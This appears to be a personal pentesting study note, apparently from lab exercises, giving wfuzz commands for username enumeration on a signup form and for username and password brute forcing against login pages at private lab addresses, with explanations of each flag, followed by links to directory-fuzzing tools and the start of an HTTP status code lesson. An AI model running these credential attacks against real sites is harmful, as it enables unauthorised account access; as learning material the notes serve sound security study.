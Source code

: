 # Username enumeration if the page show "username already exists"
```sh
wfuzz -v -c -w tempdic2.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.24.58/customers/signup -H "Referer: http://10.10.24.58/customers/signup" --ss "username already exists"
```
# Username and password brute force
```sh
wfuzz -c --hc 200 -w namesdic.txt -z file,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -X POST -d "username=FUZZ&password=FUZ2Z" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.24.58/customers/login
```

---
# Password cracker
```shell
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.161.126/login.php -d "username=FUZZ&password=FUZ2Z"
```
- `-z file,usernames.txt` loads the usernames list.
- `-z file,passwords.txt` uses the password list generated by CeWL.
- `--hs "Please enter the correct credentials"` hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
- `-u` specifies the target URL.
- `-d "username=FUZZ&password=FUZ2Z"` provides the POST data format where **FUZZ** will be replaced by usernames and **FUZ2Z** by passwords.
---


</div></div>

# [[Hacking Ético y Pentesting/gobuster\|gobuster]]
# [[Pentesting Web/ffuf\|ffuf]]
# [[Hacking Ético y Pentesting/dirb\|dirb]]
# [[Hacking Ético y Pentesting/CeWL\|CeWL]]
# 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



**HTTP Status Codes:**

In the previous task, you learnt that when a HTTP server responds, the first line always contains a status code informing the client of the outcome of their request and also potentially how to handle it. These status codes can be broken down into 5 different ranges:
